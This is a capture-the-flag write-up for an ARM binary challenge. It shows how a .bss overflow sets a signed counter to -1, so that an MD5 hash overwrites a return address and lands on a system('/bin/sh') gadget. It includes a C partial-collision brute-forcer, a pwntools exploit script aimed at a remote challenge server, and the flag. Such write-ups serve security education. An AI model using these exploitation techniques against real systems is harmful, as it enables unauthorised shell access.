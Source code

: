 # Hashcash v2

![Game](images/game.png)

As you can see in the image above, you are required to find a string, that starts with `nonce`, which it's MD5 hash that starts with `n` zero bytes, where `n` is the level number. At the very end (level 16) you are required to find an MD5 hash with all bytes to zero. If you find such hash, the program will do for you `system('/bin/sh')`.

You are provided with:
* `lib` directory: for libraries
* `chall` bash file: for starting up the program
* `hashcashv2` executable

Info about hashcashv2:
* Arch:     arm-32-little
* RELRO:    Full RELRO
* Stack:    Canary found
* NX:       NX enabled
* PIE:      No PIE (0x10000)

I'm not an expert on crypto but for sure, there's no way to win the game legitly. Thus, i started looking for any vulnerability in the input and i find out that the input has an huge overflow in the `stdin`, `stdout` section. The memory structure of `.data` and `.bss` is the following.

![Memory](images/memory.png)

We can overwrite until `hmask`, so changing `count`, `nonce`, `stderr`, `stdin`, `stdout` and of course `hmash`. Changing `stdin` or `stdout` will lead to a segfault when performing input/ouptut operation (print, read, ...), so one of the first things i looked for was a memory leak of the libc. Unfortunately, i didn't find anything and i thought a way to change them without trigger any input/output operation.
The remaining variables in the `.bss` are:
* `count`: an signed integer variable used for addressing all of the hashes in a buffer on the stack. It is incremented every level and multiplied for 16(length of a MD5 digest) to select the address in which will be stored the current level hash.
* `nonce`: it's the random byte which starts our string that will be hashed. It's a random value and it's not changing each level. It is placed in the input buffer on `.data` before reading the input.
* `hmask`: mask used for show how many bytes are set to zero in the current level. Not very useful.
Basically, we can change `count` and `nonce`. Incrementing the value of `count` will lead to an overwriting on part of the stack we are not interesed in. The game won't return normally, there's an alarm and so the only way to reach the return address on the stack is win the game legitly. Given that the `count` variable is signed, we can decrement it! In fact, if we overwrite the `count` variable with -1(`\xff\xff\xff\xff`), we can place the hash of the current input in the frame of a function called in the main function. The first function that will be called is the function that generates the hash and place it(using the `count` variable) in the buffer of the hash. With `count` equal to -1 this function overwrite its return address with the lowest 4 bytes of the current hash.

## Idea! 

Overwrite the return address of the hash function with a choosen address, so finding a collision on the first 4 byte of the hash.
The only address we can use is 0x00010C70 which performs: <br />
LDR     R0, =aBinSh     ; "/bin/sh" <br />
BL      system <br />
<br />
N.B.: This address won't lead to any input/output operation, so it's perfect.

## String structure

Finally, we just need to create a string which its MD5 hash has its 4 byte equal to 0x00010C70.
The string is composed by:
* 1 random byte(`nonce`): we can not choose nor change it.
* 1023 bytes: i placed them to `\x00`.
* 20 bytes: bytes for `stderr`, `stdin`, `stdout` and 4 unused bytes.
* `count` bytes: they have to be placed to `\xff\xff\xff\xff`
* 4 bytes called `a`, `b`, `c` and `d`: i placed these bytes at the end in order to iterate them to find a collision.

## Problem

The only part of this string we cannot control is the `nonce` byte, so i decided to fill a list of `a`, `b`, `c` and `d` values that bring to a collision, for each value of `nonce`.

## Script and collision generator

I used the following program to generate the collision.

```C
#include <stdbool.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <openssl/md5.h>


void printHash(char *digest)
{
    int i;

    printf("MD5: ");
    for(i = 0; i < 16; i++)
    {
        if (digest[i])
        {
            printf("%02x", digest[i] & 0xff);
        }
        else
        {
            printf("00");
        }
    }
    printf("\n");
}

void main(int argc, char const *argv[])
{
    unsigned char digest[16];
    MD5_CTX initial;
    MD5_CTX final;
    unsigned char data[1048];
    unsigned char end[4];
    int i, a, b, c , d;
    bool found;


    for(i = 1; i < 256; i++)
    {
        memset(data, 0, 1048);
        data[0] = i;
        data[1044] = 0xff;
        data[1045] = 0xff;
        data[1046] = 0xff;
        data[1047] = 0xff;
        MD5_Init(&initial);
        MD5_Update(&initial, data, 1048);
        found = false;
        for(a = 0; a < 256 && found == false; a++)
        {
            for(b = 0; b < 256 && found == false; b++)
            {
                for(c = 0; c < 256 && found == false; c++)
                {
                    for(d = 0; d < 256 && found == false; d++)
                    {
                        memcpy(&final, &initial, sizeof(MD5_CTX));
                        end[0] = (char) a;
                        end[1] = (char) b;
                        end[2] = (char) c;
                        end[3] = (char) d;
                        MD5_Update(&final, end, 4);
                        MD5_Final(digest, &final);
                        if((char) digest[0] == 0x70)
                        {
                            if((char) digest[1] == (char) 0x0C)
                            {
                                if((char) digest[2] == (char) 0x01)
                                {
                                    if((char) digest[3] == (char) 0x00)
                                    {
                                        printf("i: %02x\n", i & 0xff);
                                        printf("a: %02x\n", a & 0xff);
                                        printf("b: %02x\n", b & 0xff);
                                        printf("c: %02x\n", c & 0xff);
                                        printf("d: %02x\n", d & 0xff);
                                        found = true;
                                        printHash(digest);
                                    }
                                }
                            }                           
                        }
                    }
                }
            }
        }
    }
}
```

It's very ignorant but, as i said, i'm not good on crypto stuff. However, it generates a collision at most every 3 min.
Once generated a new collision, the `a`, `b`, `c` and `d` are placed in a list of the following script.

```Python
from pwn import *
import md5

abcd_array = ['\x81\xf3\x1f\x02', '\x6a\xbc\xc3\x37']
while True:
    try:
        #conn = process(argv=['qemu-arm', '-g', '4000', '-L', './', './hashcashv2_patched'])
        conn = remote('142.93.39.178 2023', 2023)
        conn.recvuntil('\x1B[1mnonce:\x1B[0m 0x')
        byte = conn.recvuntil('\n')
        byte = int(byte, 16)
        conn.recvuntil('\x1B[1minput:\x1B[0m ')
        data_payload = ('\x00' * 1023)
        #libc std
        bss_payload = '\x00' * 16
        #completed
        bss_payload += '\x00' * 4
        #count
        bss_payload += '\xff\xff\xff\xff'
        #"proof of work"
        bss_payload += abcd_array[byte]
        payload = data_payload + bss_payload
        conn.sendline(payload)
        conn.interactive()
    except Exception as e:
        conn.close()
        continue
```
<br />
As you can see, there are only two values in the list because i got lucky and the `nonce` byte was 0x00 or 0x01.
<br />
`SECT{Y0U_kn0w_i7s_b@d_wHeN_cAn4R1es_n33d_C@NaRi3z}`